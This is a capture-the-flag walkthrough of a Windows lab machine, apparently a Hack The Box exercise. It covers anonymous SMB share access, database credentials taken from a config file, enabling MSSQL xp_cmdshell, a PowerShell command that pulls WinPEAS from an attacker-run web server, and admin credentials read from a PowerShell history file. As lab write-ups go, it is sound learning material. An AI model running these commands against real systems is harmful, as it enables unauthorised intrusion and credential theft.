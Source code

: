 # Walkthrough Notes

---

## Initial Recon

First I started off by doing a routine recon scan.

![Recon Scan](./recon.png)

- First I notice there is an **ms-sql server** running on port `1433`.
- From the script scan I also notice the Nmap scan revealed that an SMB client was actively running as `Ill`.

---

## SMB Enumeration

Next I run:

```bash
smbclient -L //IP
```

to reveal the shares on the SMB client.

![SMB Shares](./smb-shares.png)

I notice the `backups` share is a non-administrator share, so I run:

```bash
smbclient -N //IP/backups
```

to investigate what's inside.

The command reveals a `prod.dtsConfig` file. I use the `get` command to download it and inspect it locally.

![prod.dtsConfig](./prod-config.png)

The file contained the SQL database credentials:

- **User:** `sql_svc`  
- **Pass:** `M3g4c0rp123`

---

## SQL Database Access

I installed `mssqlclient.py` and used the credentials to log into the SQL server:

![SQL Login](./sql-login.png)

This gave regular user-level permissions.

Trying to run `xp_cmdshell` failed due to insufficient permissions. So I enabled it using:

```sql
sp_configure 'Show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once enabled, I could upload and run apps on the server.

---

## Privilege Escalation - WinPEAS

I downloaded `winpeas.exe` locally and spun up a web server:

```bash
python3 -m http.server 8000
```

Then, on the SQL server I ran:

```sql
EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest -Uri http://10.10.15.240:8000/winpeas.exe -OutFile C:\Users\Public\winpeas.exe"';
```

![WinPEAS Request](./winpeas-request.png)

After the file was downloaded:

![WinPEAS Response](./winpeas-response.png)

I ran WinPEAS and saved output to a file:

```sql
EXEC xp_cmdshell 'C:\Users\Public\winpeas.exe > C:\Users\Public\peasout.txt';
```

Then read it with:

```sql
EXEC xp_cmdshell 'type C:\Users\Public\peasout.txt';
```

---

## Finding PowerShell History

While parsing `winpeas` output, I found a PowerShell history file:

```sql
EXEC xp_cmdshell 'type C:Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
```

![ConsoleHost History](./powershell-history.png)

It revealed:

- **Admin user:** `administrator`
- **Admin password:** `MEGACORP_4dm1n!!`

---

## Accessing Admin SMB Shares

I tried these credentials on the SQL database but had no luck.  
However, they **worked with `smbclient`**, granting access to all shares.

I navigated to:

- `Users/Administrator/Desktop` for the root flag
- `Users/sql_svc/Desktop` for the user flag

![Root Flag](./root-flag.png)
